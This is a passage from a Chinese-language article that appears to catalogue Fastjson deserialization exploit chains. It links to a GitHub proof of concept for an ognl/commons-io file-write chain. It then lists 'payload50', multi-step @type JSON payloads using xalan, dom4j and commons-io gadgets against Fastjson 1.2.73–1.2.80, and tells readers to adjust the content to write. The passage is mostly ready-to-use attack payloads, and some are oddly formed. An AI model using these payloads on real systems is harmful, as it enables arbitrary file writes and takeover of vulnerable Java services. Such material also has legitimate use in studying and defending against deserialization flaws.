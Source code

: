[![](assets/1706959415-4af180b8bcd2706e43f9f8ad66f73e2a.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021213615716.png)

### 5.2.3 ognl+commons-io+aspectjtools+commons-codec 组合利用链

这条链主要是为了解决前面提到的的`io`链无法写入复杂文件结构的问题，文件依旧需要大于`8kb`才能写入。`poc`地址如下：

> [https://github.com/safe6Sec/ShiroAndFastJson/blob/master/src/main/java/com/shiro/vuln/fastjson/Fastjson26\_ognl\_io\_write\_4.java](https://github.com/safe6Sec/ShiroAndFastJson/blob/master/src/main/java/com/shiro/vuln/fastjson/Fastjson26_ognl_io_write_4.java)

## 5.3 xalan+dom4j+commons-io (1.2.73<=version<=1.2.80)

### 5.3.1 xalan+dom4j+commons-io（2.0~2.6 版本）

分四步打，自行修改写入内容。

`payload50`（组合拳）：

```plain
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}
```

```plain
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}}}
```

```plain
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"}}}}}}}
```
